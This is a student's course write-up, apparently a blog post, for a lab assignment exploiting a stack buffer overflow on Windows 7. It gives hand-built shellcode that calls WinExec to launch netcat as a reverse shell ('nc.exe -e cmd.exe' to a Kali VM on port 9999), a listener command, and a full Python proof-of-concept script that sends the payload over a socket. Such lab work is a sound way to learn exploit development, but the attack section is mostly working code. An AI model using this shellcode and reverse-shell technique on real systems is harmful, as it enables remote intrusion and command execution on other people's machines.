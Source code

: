 ```yaml
---
layout: post
title:  "An Exploit"
date:   2016-09-26  
comments:   true  
---
```


# Assignment 2, An Exploit

[TOC]

> You must develop and provide your ownshellcode to gain command line (DOS) access using a vulnerability you found from lab 1. Using tools to generate sehllcode or downloaded shellcode without detailed explanation of how the shellcode works is not acceptable. There are different options, for varying degrees of credit.

I've done some research on the internet before this assignment. Almost every blog/tutorial was based on that windows tcp bind 4444 shellcode. Since we are not allowed to copy shellcode from the internet, I would not choose *Option 2*. And because this task is too machine/os specified, packaging it into Metasploit is unnecessary(actually is I was left behind and had no time to learn ruby development). So I chose *Option 1*. Which is using static address and assuming `nc.exe` in the target machine at a known location. I devided the whole assignment into 2 section, address padding and shellcode. It comes below.

### 1. Address Padding

My idea is pretty straightforward. Place the shellcode at the beginning of the input. After shellcode padding "A"s until EIP. And place the beginning address of input in EIP to jump to shellcode and execute. The beginning address of input is already found in Assignment 1 which is `0012F908` . So, the input would be like:

```
shellcode + paddings + "\x08\xF9\x12\x00" + others
```

The "badcharacter" `\x00` is at the end of our "important stuff",  so we don't need to worry about that.



### 2. Shellcode

Our task is to execute `nc.exe` at target machine. So, I choose to use an API call named WinExec in kernel32.dll. Which is described as:

> Runs the specified application.
>
> ```c++
> UINT WINAPI WinExec(
>   _In_ LPCSTR lpCmdLine,
>   _In_ UINT   uCmdShow
> );
> ```

However Windows 7 has [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization), I asume that API calls in kernel32.dll would not be affected by it. Because kernel32.dll has already been loaded before our experiments.  And by using `arwin.exe` we can find the pointer to WinExec:

![](http://ww1.sinaimg.cn/large/006y8lVagw1f8b3y9b2f5j313k06dadv.jpg)

Next, we need to encode our command into hex opcode. The command I used is:

```
C:\\Users\kaidi\Desktop\HW1\nc.exe -e cmd.exe 172.16.32.136 9999
```

`172.16.32.136` is the IP address of another VM which host a kali linux. In kali, I'll open a terminal with:

```
nc -lvp 9999
```

To encode the command string, I just simply use a ASCII to HEX tool online. And split the text into groups of 4 characters. After that, reverse the order of groups. Beside, we have to add `\x68`, which means `push` , in the front of each group as we are inputting characters. And we got:

```
"\x68\x39\x39\x39\x39"
"\x68\x31\x33\x36\x20"
"\x68\x2e\x33\x32\x2e"
"\x68\x32\x2e\x31\x36"
"\x68\x65\x20\x31\x37"
"\x68\x64\x2e\x65\x78"
"\x68\x65\x20\x63\x6d"
"\x68\x78\x65\x20\x2d"
"\x68\x6e\x63\x2e\x65"
"\x68\x57\x31\x5c\x5c"
"\x68\x70\x5c\x5c\x48"
"\x68\x73\x6b\x74\x6f"
"\x68\x5c\x5c\x44\x65"
"\x68\x61\x69\x64\x69"
"\x68\x73\x5c\x5c\x6b"
"\x68\x55\x73\x65\x72"
"\x68\x43\x3a\x5c\x5c"
```

Luckily, my command can be 4-character aligned. If they are not, you can simply add an extra space at the end.

My shellcode idea is also straightforward. 

```asm
XOR EAX,EAX          	|  Zero out EAX register
PUSH EAX             	|  Push EAX to have null-byte padding for "calc.exe"										
PUSH "C:\\Users\kaidi\Desktop\HW1\nc.exe -e cmd.exe 172.16.32.136 9999"												|  Push The ASCII string to the stack
MOV EAX,ESP          	|  Put a pointer to the ASCII string in EAX
PUSH 1               	|  Push uCmdShow parameter to the stack
PUSH EAX             	|  Push the pointer to lpCmdLine to the stack
MOV EBX,7C862AED     	|  Move the pointer to WinExec() into EBX
CALL EBX             	|  Call WinExec()

```

 

### Future Work

1. Our shellcode is executed at the target machine. In the future we can modified it to execute at a remote machine. Which would not be very hard, just use `nc.exe` to do the remote input should be fine. Using python script in this experiment only because it's easy to modify and convenient to use. 
2. Change the behavior of reverse shell. Make it general. No need to specify a static IP address. 

### Difficulties

- I was trying to find the address of `jmp esp` or `call esp` in the progrom to place it in EIP so I can execute my shellcode at ESP. But we are using Windows 7, there's no these kind of calls in Windows 7. If it has, they would be randomized address which can't not be used in our experiment.
- Have to pay attention of badcharacters like `\x00` . It would cause the end of line in your command.



### POC:

```Python
import sys, socket, time
 
host = sys.argv[1]
port = int(sys.argv[2])
 
length = 412

WinExec = (
"\x33\xc0"
"\x50"
"\x68\x39\x39\x39\x39"
"\x68\x31\x33\x36\x20"
"\x68\x2e\x33\x32\x2e"
"\x68\x32\x2e\x31\x36"
"\x68\x65\x20\x31\x37"
"\x68\x64\x2e\x65\x78"
"\x68\x65\x20\x63\x6d"
"\x68\x78\x65\x20\x2d"
"\x68\x6e\x63\x2e\x65"
"\x68\x57\x31\x5c\x5c"
"\x68\x70\x5c\x5c\x48"
"\x68\x73\x6b\x74\x6f"
"\x68\x5c\x5c\x44\x65"
"\x68\x61\x69\x64\x69"
"\x68\x73\x5c\x5c\x6b"
"\x68\x55\x73\x65\x72"
"\x68\x43\x3a\x5c\x5c"
"\x8B\xC4"
"\x6A\x01"
"\x50"
"\xBB\xFD\xE5\x1B\x76"
"\xFF\xD3")

while (length < 1000):
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((host, port))
	data1 = s.recv(1024)
	s.sendall(WinExec + "A" * (length-len(WinExec)) + "\x08\xF9\x12\x00" + "C" * 2 + "D" * 10)
	data2 = s.recv(1024)
	s.close()
	time.sleep(2)
	print 'Recieved: ', repr(data1), repr(data2)
	length += 100
```



In the end, we first listen port 9999 at our kali VM. And we run the python script at the target machine.  

![](http://ww4.sinaimg.cn/large/006y8lVagw1f8b402b8nvj313c0g6n1j.jpg)

As we can see here, EIP address successfully points to the beginning of input which is `0012F908`. You probably noticed that value in EIP is not exactly matched with it in the stack. However, it worked. :D

![](http://ww1.sinaimg.cn/large/006y8lVagw1f8b3zgc5ybj30lu0i641u.jpg)

If we succeed, we can see the reverse shell running and the exploit worked.

![](http://ww2.sinaimg.cn/large/006y8lVagw1f8b403kxusj314w0r8q9a.jpg)

### Reference

> http://www.fuzzysecurity.com/tutorials/expDev/6.html
>
> http://morgawr.github.io/hacking/2014/03/29/shellcode-to-reverse-bind-with-netcat/
>
> http://buffered.io/posts/myftpd-exploit-on-windows-7/

